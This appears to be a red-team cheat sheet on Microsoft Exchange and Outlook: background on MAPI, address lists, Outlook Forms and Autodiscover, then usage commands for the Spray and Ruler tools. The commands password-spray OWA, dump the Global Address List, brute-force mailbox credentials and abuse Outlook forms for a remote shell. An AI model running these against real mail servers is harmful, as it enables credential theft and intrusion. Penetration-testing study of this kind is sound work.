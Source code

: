 

## MAPI

Messaging Application Programming Interface (MAPI) is an API for Microsoft Windows which allows programs to become email-aware.

The MAPI application is known as a client application because it is a client of the MAPI subsystem.

### Address lists

An address list is a collection of mail-enabled recipient objects from Active Directory.

- **Global address lists (GALs)**: The built-in GAL that's automatically created by Exchange includes every mail-enabled object in the Active Directory forest.
You can create additional GALs to separate users by organization or location, but a user can only see and use one GAL.

- **Address lists**: Address lists are subsets of recipients that are grouped together in one list, which makes them easier to find by users. Exchange comes with several built-in address lists, and you can create more based on you organization's needs.

- **Offline address books (OABs)**: OABs contain address lists and GALs. OABs are used by Outlook clients in cached Exchange mode to provide local access to address lists and GALs for recipient look-ups.

### Outlook Forms

Forms provide a user/organisation with email customisation options on how it is presented or composed.

It is possible to change the way a message appears or what fields are available to a user when composing a new message.

Forms has a VBA script engine that is **separate from the VBA Macro script engine**, which means that if you disabled macros, you can still leverage VBA in Outlook through Forms.

When a form gets published into a folder such as the Inbox, it automatically gets synchronised with the Exchange server, and all instances of Outlook associated to that account.

### Autodiscover service

The Autodiscover service minimizes user configuration and deployment steps by providing clients access to Exchange features.


### Spray

[Spray](https://github.com/Greenwolf/Spray) is a password spraying tool for Active Directory credentials.

This script will password spray a target over a period of time It requires password policy as input so accounts are not locked out

```bash
# Usage: spray.sh -owa <targetIP> <usernameList> <passwordList> <AttemptsPerLockoutPeriod> <LockoutPeriodInMinutes> <RequestsFile>
spray.sh -owa IP USERNAME.txt PASSWORDS.txt 1 35 post-request.txt
```

### Ruler

[Ruler](https://github.com/sensepost/ruler) is a tool that allows you to interact with Exchange servers remotely, through either the MAPI/HTTP or RPC/HTTP protocol.

The main aim is abuse the client-side Outlook features and gain a shell remotely.

- **Display**: View existing rules. Rules allow you to move, flag, and respond to email messages automatically.

```bash
# Dump the Global Address List
./ruler --email user@targetdomain.com abk dump --output /tmp/gal.txt
```




*Note that it may be possible that Ruler don't discover the necessary settings automatically. Common scenarios are have the autodiscover services deployed over HTTP instead of HTTPS, no autodiscover DNS record or an authentication failing*

```bash
./ruler --url http://autodiscover.somedomain.com/autodiscover/autodiscover.xml --verbose
```

#### Forms

Options of the "form" mode:

- **add**: Creates a new form.
- **send**: Send an email to an existing form and trigger it
- **delete**: Delete an existing form
- **display**: Display all existing forms

https://sensepost.com/blog/2017/outlook-forms-and-shells/

#### Brute-Force

Ruler can be used to brute-force mailbox credentials.

Options of the "brute" mode:

- **--stop**: Stop on the first valid username:password combo
- **--delay**: How long to wait between multiple password guesses
- **--attempts**: How many attempts before we delay (attempts per user)
- **--insecure**: If the Exchange server has a bad SSL cerificate
- **--verbose**: Be verbose and show failed attempts

```bash
# Brute-force for credentials
./ruler --domain targetdomain.com brute --users /path/to/user.txt --passwords /path/to/passwords.txt
```
